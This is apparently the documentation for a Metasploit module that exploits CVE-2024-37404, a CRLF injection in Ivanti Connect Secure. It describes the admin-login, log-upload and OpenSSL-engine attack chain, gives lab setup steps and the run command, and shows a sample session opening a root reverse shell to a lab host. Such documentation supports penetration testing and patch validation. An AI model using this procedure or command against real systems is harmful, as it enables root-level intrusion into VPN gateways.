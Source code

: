 ## Vulnerable Application

This module exploits a CRLF injection vulnerability in Ivanti Connect Secure to
achieve remote code execution (CVE-2024-37404). Versions prior to 22.7R2.1 and
22.7R2.2 are vulnerable. Note that Ivanti Policy Secure versions prior to
22.7R1.1 are also vulnerable but this module doesn't support this software.

Valid administrative credentials are required. A non-administrative user is also
required and can be created using the administrative account, if needed.

Finally, the `Client Log Upload` feature needs to be enabled. This can also
be done using the administrative interface (see the Installation Steps section
below), if it is not enabled already.

### Process Overview

First, the module will log into the administrative interface and check if the version
is vulnerable. Then, it will connect to the user interface using non-privileged
credentials and upload a log file archive containing the payload. This file is
stored as a known path on the server, which can be retrieved from the
administrative interface. Then, it leverages the CRLF vulnerability by creating
a Certificate Signing Request and passing a specially crafted OpenSSL
configuration. This configuration instructs OpenSSL to use a custom
cryptographic engine, which points to the log file path (our payload). The
payload is immediately executed, giving RCE as the root user on the appliance.

This has been successfully tested against Ivanti Connect Secure version 22.3R1 (build 1647).

### Installation Steps
Get an Ivanti Security Appliance (ISA) or a Virtual Appliances (ISA-V Series)
with a vulnerable Ivanti Connect Secure installed.

Note that it is not possible to download a trial version of a Virtual Appliance
unless you contact sales and request a demo.

Log into to the admin interface (https:/<IP>/admin) to proceed with the following requirements:

#### Create a normal user
- In the `Authentication` menu, select `Auth. Servers`.
- Select the `System Local` `Authentication/Authorization Servers` or any
  server with the type `Local Authentication`. Don't select the
  `Administrators` server since we need a non-administrative account.
- Click on the `Users` tab and then `New`.
- Fill the registration form and click `Save Changes`.

#### Enable Client Log
- Go to `Users` > `User Roles` and click on the `Users` role.
- Go to `General` > `Session Options`.
- Select `Enable Upload Logs` under the `Upload logs` section.
- Click `Save Changes`.


## Verification Steps
1. Start msfconsole
1. Do: `use linux/http/ivanti_connect_secure_rce_cve_2024_37404`
1. Do: `run verbose=true lhost=<local host> rhosts=<remote host> admin_username=<admin username> admin_password=<admin password> username=<normal user> password=<user password>`
1. You should get a Meterpreter session
1. Make sure the admin and the normal user have been logged out by logging in
   the web interfaces with a web browser (you should have any warning saying a
   session is already active)
1. Make sure the cleanup has been done correctly by checking `System` > `Log/Monitoring`


## Options

### ADMIN_USERNAME
Administrative username to authenticate with.

### ADMIN_PASSWORD
Administrator password to authenticate with.

### USERNAME
Normal user username to authenticate with.

### PASSWORD
Normal user password to authenticate with.


## Scenarios

### Ivanti Connect Secure version 22.3R1 (build 1647)

```
msf6 exploit(linux/http/ivanti_connect_secure_rce_cve_2024_37404) > run verbose=true lhost=192.168.211.69 rhosts=192.168.211.200 admin_username=msfadmin admin_password=1234567890 username=msfuser password=1234567890

[*] Started reverse TCP handler on 192.168.211.69:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Login to the administrative interface with username 'msfadmin' and password '1234567890'...
[!] The admin msfadmin is already logged in
[*] Getting the version...
[+] Found version 22.3R1 (build 1647)
[+] The target appears to be vulnerable.
[*] Uploading the payload...
[*] Login to the user interface with username 'msfuser' and password '1234567890'...
[*] Uploading the log file...
[*] Logging the user out...
[*] Getting the log file name...
[*] Triggering the payload...
[*] Transmitting intermediate stager...(106 bytes)
[*] Sending stage (1017704 bytes) to 192.168.211.200
[*] Cleaning up...
[*] Deleting the log file (payload)...
[*] Logging the administrator out...
[*] Meterpreter session 3 opened (192.168.211.69:4444 -> 192.168.211.200:50210) at 2024-10-29 16:43:35 +0100

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.211.200
OS           :  (Linux 4.15.18.34-production)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
```
